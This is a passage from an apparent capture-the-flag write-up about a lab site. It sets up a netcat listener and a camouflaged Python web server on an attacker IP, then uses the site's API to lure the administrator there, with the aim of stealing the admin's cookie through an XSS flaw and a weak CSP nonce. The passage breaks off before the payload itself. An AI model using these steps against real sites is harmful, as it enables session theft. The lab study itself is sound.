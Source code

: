The most relevant part of the message is that it indicates the administrator will immediately visit the provided URL.

### Administrator Cookie Exfiltration

To verify that the administrator actually visits the URLs provided through the API, we set up a listener with netcat on our attacking machine.

```bash
nc -lvp 80
```

and send a request to the API including a URL pointing to our attacking machine's IP (in this case, 10.0.2.7) from another terminal to check if the administrator accesses it.

```bash
curl -H 'X-API-Key: d880e17b1a866fbe7221de31316e66e560025276d8bce7d48706b44ffaf56b79' -d '{"message":"test","url":"http://10.0.2.7"}' -X POST http://api.slywindow.nyx/api.php 2>/dev/null | jq
```

After approximately 30 seconds, we receive an incoming request on our netcat listener, confirming that the administrator has accessed the provided URL.

![](../../assets/images/slywindow/20250801_020051_image.png)

It is confirmed that the administrator visits the URLs sent through the API, although they only do so once. Knowing that there is an XSS vulnerability at `http://www.slywindow.nyx/admin.php?message=`, and taking advantage of an insecure `nonce` in the CSP headers, we can send a malicious link to the administrator with the objective of stealing their cookie.

First, it is necessary to obtain again the current value of the insecure `nonce` from the headers, as it could have changed since the last time we captured it.

Next, we create an `index.html` file on our attacking machine that redirects to Google, simulating a legitimate action.

```bash
echo '<script>location.href="https://www.google.com";</script>' > index.html
```

Next, we set up a Python web server in the same folder where the `index.html` file that redirects to google.com is located, with the objective of camouflaging cookie exfiltration.

```bash
python3 -m http.server 80
```

Before attacking the administrator, we test cookie exfiltration on our own session. For this, we generate the malicious script and encode it in URL within the `?error=` parameter.
